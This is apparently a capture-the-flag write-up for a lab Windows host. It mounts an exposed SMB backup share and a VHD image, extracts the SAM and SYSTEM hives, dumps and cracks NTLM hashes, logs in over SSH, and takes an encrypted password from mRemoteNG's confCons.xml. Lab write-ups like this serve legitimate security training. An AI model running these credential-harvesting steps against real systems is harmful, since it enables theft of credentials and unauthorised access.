 ```
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writer542da469-d3e1-473c-9f4f-7847f01fc64f.xml      A     1488  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writera6ad56c2-b509-4e6c-bb19-49d8f43532f0.xml      A     1484  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerafbab4a2-367d-4d15-a586-71dbb18f8485.xml      A     3844  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writerbe000cbe-11fe-4426-9c58-531aa6355fc4.xml      A     3988  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writercd3f2362-8bef-46c7-9181-d62844cdc0b2.xml      A     7110  Fri Feb 22 07:45:32 2019
  cd113385-65ff-4ea2-8ced-5630f6feca8f_Writere8132975-6f93-4464-a53e-1050253ae220.xml      A  2374620  Fri Feb 22 07:45:32 2019
```


https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25

Ok so now we know we’re dealing with vhd files we can mount them and virtually to explore it.
```
apt-get install libguestfs-tools

apt-get install cifs-utils

mkdir /mnt/remote

mount -t cifs //10.10.10.134/Backups /mnt/remote -o rw

cd /mnt/remote

guestmount --add "/mnt/remote/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd" --inspector --ro /mnt/vhd -v

/mnt/vhd/Windows/System32/config
```
In there we can get the sam and system file
```
samdump2 SYSTEM SAM -o out

*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
We use the second part of L4mpje to crack the password.

hashkiller.co.uk
26112010952d963c8dc4217daec986d9 NTLM bureaulampje 
```
ssh L4mpje@10.10.10.134
bureaulampje

cd Desktop
more user.txt
```
Now we can go look for the root. Since it has nRemoteNG on it we can exploit that using the confCons.xml file.
```
%appdata%

cd Roaming

cd nRemoteNG

more confCons.xml
```
Take password from confCons Password=”aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==”
